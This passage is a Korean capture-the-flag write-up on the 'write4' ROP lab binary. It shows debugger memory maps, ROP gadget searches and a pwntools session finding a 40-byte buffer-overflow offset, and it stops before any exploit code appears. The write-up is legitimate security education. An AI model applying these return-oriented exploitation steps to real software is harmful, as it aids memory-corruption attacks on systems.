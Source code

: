 <br />

```yaml
pwndbg> elf
...
0x600df8 - 0x600e00  .fini_array
0x600e00 - 0x600ff0  .dynamic
0x600ff0 - 0x601000  .got
0x601000 - 0x601028  .got.plt
0x601028 - 0x601038  .data
0x601038 - 0x601040  .bss

pwndbg> vmmap 0x601038
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
          0x600000           0x601000 r--p     1000      0 /home/kali/pico/write4
►         0x601000           0x602000 rw-p     1000   1000 /home/kali/pico/write4 +0x38
    0x7ffff7a0a000     0x7ffff7a32000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6
```
`print_file`의 인자로 넣으려면 쓰기 권한이 있는 영역에 `"flag.txt"`를 쓰고, `"flag.txt"`를 저장하고 있는 주소를 `rdi`에 넣어 사용해야 합니다. `elf` 명령어로 `bss(0x601038)`는 8바이트만큼 할당이 되어 있고, 쓰기 권한이 있는 것을 알 수 있습니다. 해당 영역에 `"flag.txt"`를 저장할 것입니다.

```yaml
$ ROPgadget --binary write4 | grep "rdi"
0x0000000000400693 : pop rdi ; ret

$ ROPgadget --binary write4 | grep "pop r14"
...
0x0000000000400690 : pop r14 ; pop r15 ; ret
...
```
위에서 설명한 `rdi`와 `r14`, `r15`에 대한 가젯을 찾아줍니다.

<br />

```yaml
$ python3 -q
>>> from pwn import *
>>>
>>> p = process("./write4")
[+] Starting local process './write4': pid 1891
>>> p.sendline(cyclic(400, n=8))
>>> p.wait()
[*] Process './write4' stopped with exit code -11 (SIGSEGV) (pid 1891)
>>> Corefile("./core.1891")
[+] Parsing corefile...: Done
[*] '/home/kali/pico/core.1891'
    Arch:      amd64-64-little
    RIP:       0x7f59cac00942
    RSP:       0x7ffcbc52af78
    Exe:       '/home/kali/pico/write4' (0x400000)
    Fault:     0x6161616161616166
Corefile('/home/kali/pico/core.1891')
>>> cyclic_find(0x6161616161616166, n=8)
40
```
마지막으로 위 과정을 통해 오프셋을 계산합니다. 오프셋은 40 입니다. 위에서 찾은 정보를 가지고 공격 코드를 작성할 수 있습니다.
